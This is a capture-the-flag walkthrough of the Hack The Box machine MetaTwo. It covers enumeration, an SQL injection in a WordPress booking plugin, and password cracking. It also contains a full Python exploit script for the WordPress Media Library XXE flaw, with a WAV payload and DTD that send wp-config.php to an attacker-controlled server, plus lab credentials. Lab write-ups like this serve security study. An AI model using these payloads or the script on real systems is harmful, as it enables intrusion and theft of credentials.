

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.186 metapress.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
1 service unrecognized despite returning data.
```

* Web server is redirecting to hostname `metapress.htb`
* web server running wordpress.

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-metapress.htb.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-metapress.htb.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

wpscan found some information
```bash
... [snip] ...

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Aggressive Detection)
 |  - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

... [snip] ...

[i] User(s) Identified:

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://metapress.htb/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://metapress.htb/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] manager
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Users found -> `admin`, `manager`

# Foothold

## WP-Plugin SQLi CVE-2022-0739

Where wpscan did not find any plugin, `/event` page is using a wordpress plugin `bookingpress-appointment-booking` -> http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt

* Version -> 1.0.10
* Vulnerability -> SQLi [CVE-2022-0739](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
* Exploit -> https://github.com/destr4ct/CVE-2022-0739

In the event page, when we book appointment, an ajax call made through the api `/wp-admin/admin-ajax.php`


An unauth user can make this api call to "bookingpress-appointment-booking" and there is a "bookingpress_front_get_category_services" api action which is vlunerable for SQLi.

And here "total_service" parameter is vulnerable for sql injection.

<div style="display:flex;">
  
  <hr style="border:none; border-right: 1px solid black; height: auto; margin: auto;" />
  
</div>

Running the exploit

```bash
❯ python booking-press-expl.py -u http://metapress.htb -n dfb44d7330
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

haskcat cracked the "manager" password hash.
```bash
❯ hashcat -m 400 -a 0 hashes /usr/share/wordlists/rockyou.txt --show
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

Creds -> `manager:partylikearockstar`

## WP XXE CVE-2021-29447

With manager creds we can login to wordpress dashboard, but "manager" only have "Media Library" access.


and there is a vulnerability in wordpress version 5.6.0 to 5.7.0 where an an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).

* Version -> WP 5.6.0 to 5.7.0
* Vulnerability -> XXE [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)

Generate payload wave file -
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://IP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Create dtd file -
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:PORT/?p=%file;'>" >
```

Start http server -
```bash
python -m http.server 8000
```

Upload "payload.wav" file in wordpress media library.


**Exploit Script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Description: in wordpress version 5.6.0 to 5.7.0 where an an authenticated user with the ability to upload files
             in the "Media Library" can upload a malicious WAVE file that could lead to remote arbitrary file disclosure
             and server-side request forgery (SSRF).
CVE: CVE-2021-29447 https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

Usage: python3 script.py [FILENAME]
                        where FILENAME is the full path of file want to read.
"""

import requests
from bs4 import BeautifulSoup
from re import findall
import threading
import socketserver
import http.server
from base64 import b64decode
import netifaces as ni
from os import path
from sys import argv

try:
    tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

session = requests.Session()
# session.proxies = {"http": "http://127.0.0.1:8080"}

host = 'http://metapress.htb'
username = 'manager'
password = 'partylikearockstar'

# Login to wordpress and get auth session
def login_to_wordpress(login_url, username, password):

    # get the login page to extract the login form fields
    login_page = session.get(login_url)
    soup = BeautifulSoup(login_page.content, 'html.parser')
    form = soup.find('form', {'id': 'loginform'})

    # extract the form fields
    action = form['action']
    inputs = form.find_all('input')
    data = {}
    for i in inputs:
        if i.has_attr('name'):
            data[i['name']] = i['value']

    # update the form fields with the credentials
    data['log'] = username
    data['pwd'] = password

    # submit the form
    response = session.post(action, data=data, allow_redirects=False)

    # check if the login was successful
    if "wordpress_logged_in" in response.headers["Set-Cookie"]:
        print('[+] Login successful!')
        return True
    else:
        print('[-] Login failed.')
        return False

# File upload function in wordpress "Media Library" 
def wp_media_library_upload(upload_url, username, password, filename):

    # log in to WordPress
    login_success = login_to_wordpress(login_url=f"{host}/wp-login.php", username=username, password=password)
    if not login_success:
        print("[-] Login failed.")
        return False

    # prepare the image data
    with open(filename, 'rb') as f:
        image_data = f.read()

    # Grab _wpnonce
    res = session.get(f"{host}/wp-admin/media-new.php")
    wp_nonce = findall(r'name="_wpnonce" value="(\w+)"',res.text)
    if len(wp_nonce) == 0 :
        print("[-] Failed to retrieve the _wpnonce")
        return False
    else :
        _wpnonce = wp_nonce[0]
        print("[+] Wp Nonce retrieved successfully ! _wpnonce : " + _wpnonce)

    file_data = {"name": (None, filename), "action": (None, "upload-attachment"), "_wpnonce": (None, _wpnonce), "async-upload": (filename, image_data)}

    # send the POST request to upload the image
    response = session.post(upload_url, files=file_data)

    # check if the image was uploaded successfully
    if 'success' in response.text:
        print('[+] Image uploaded successfully!')
        return True
    elif response.status_code == '502':
        return True  # XXE triggered.
    else:
        print('[-] Image upload failed.')
        return False 

# http server handler
class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    already_processed = set() # Add this line to define the attribute

    def __init__(self, *args, **kwargs):
        super().__init__(*args, directory='.', **kwargs)

    def do_GET(self):
        # Check if the request has already been processed
        if self.path in self.already_processed:
            return
        self.already_processed.add(self.path)

        super().do_GET()

        # extract the request path from the log and print it
        request_path = self.requestline
        if "?p=" in request_path:
            recv_data = request_path.split(' ')[1]
            recv_data = findall(r"/\?p=(.*?)$", recv_data)[0]
            base64_decoded = b64decode(recv_data).decode('UTF-8')
            print('[+] Data received:\n'+ base64_decoded)

    def log_message(self, format, *args):
        pass

# http server
def run_http_server(port, stop_event):
    try:
        server = socketserver.TCPServer(("", port), MyHttpRequestHandler)
        print("[+] HTTP server started at port", port)
        while not stop_event.is_set():
            try:
                server.serve_forever()
            except KeyboardInterrupt:
                break
            # except ThreadError:
            #     break
        server.server_close()
    except OSError as e:
        print(e)
    except Exception as e:
        print(e)

# Generate required files for the exploit
def init_files(get_this_file):
    dtd = f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={get_this_file}">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://{tun0_ip}:8000/?p=%file;'>" >"""
    fn1 = 'NAMEEVIL.dtd'
    with open(fn1, 'w') as f:
        f.write(dtd)
        print(f'[+] File {fn1} written successfully.')

    fn2 = 'payload.wav'
    if not path.isfile(fn2):
        print(f'[!] File {fn2} Not Found!')
        exit(0)

        # Create "payload.wav" manually
        """
        echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.32:8000/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
        """
        # I don't find any way to create working wav file using python.


if __name__ == '__main__':
    try:
        init_files(get_this_file=argv[1])

        # start the HTTP server in a separate thread
        stop_event = threading.Event()
        server_thread = threading.Thread(target=run_http_server, args=(8000, stop_event))
        server_thread.daemon = True
        server_thread.start()

        # upload the image to WordPress
        success = wp_media_library_upload(upload_url=f"{host}/wp-admin/async-upload.php", username=username, password=password, filename="payload.wav")

        # wait for the flag to be set and close the HTTP server
        if success or not success:
            stop_event.set()
            server_thread.join(timeout=5.0)  # Threading is not implemented correctly(?), Or there something else. Because after script exit, running it again immediately cause OSError.
    except IndexError as e:
        print(f"Usage: {argv[0]} <filename>")
    except Exception as e:
        print(e)

```


From wp-config.php file, got FTP creds -> `metapress.htb:9NYS_ii@FyL_p5M2NvJ@ftp.metapress.htb`

And database creds -> `blog:635Aq@TdqrCwXFUZ`

From FTP server, found some more creds in `/mailer/send_email.php` -> `jnelson:Cb4_JmWM8zUZWMu@Ys`


And there is a user "jnelson" on the box, so we colud reuse these creds in ssh login.

# Privesc

## passpie cracking with john

There is a `.passpie` direcotry in `/home/jnelson`.

It is a password manager -> https://github.com/marcwebbie/passpie



And `.passpie` direcotry contains encrypted password files for ssh login.


There is a `.keys` file, which contains passpie encrypted Passphrase public and private gpg keys. We can use private key to crack the Passphrase using `john`.

Save private key from `.keys` file in local machine.

Use `gpg2john` to extract hash.
```bash
gpg2john keys > passpie.bash
```

```bash
❯ john passpie.bash -w /usr/share/wordlists/rockyou.txt

... [snip] ...

blink182         (Passpie)
```

Passpie Passphrase -> `blink182`

```bash
jnelson@meta2:~$ passpie copy root@ssh --to stdout
Passphrase: 
p7qfAZt4_A1xo_0x
```


